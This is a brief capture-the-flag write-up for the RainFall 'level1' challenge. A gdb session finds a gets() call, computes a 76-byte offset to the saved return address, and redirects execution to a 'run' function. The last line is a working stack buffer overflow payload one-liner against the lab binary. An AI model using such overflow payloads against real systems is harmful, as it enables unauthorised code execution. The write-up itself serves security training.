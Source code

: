 ```console
level1@RainFall:~$ gdb level1
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) b *0x08048490
Breakpoint 1 at 0x8048490
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048490 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x/w $eax
0xbffff6f0:	134513824
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
(gdb)
```

### Goal 

`eax` of `gets` will write at 0xbffff6f0. The `eip` is at 0xbffff73c. So we want to overwrite `eip` and write adsress of `run` in, by overflowing `eax`.


```bash
(gdb) info functions
```

```console
0x08048444  run
0x08048480  main
```

return address of `run` is `0x08048444` which is `0x44\x84\x04\x08` in little endian.

### Exploit

```bash
(python -c "print 'A' * 76 + '\x44\x84\x04\x08'"; cat)  | ./level1
```
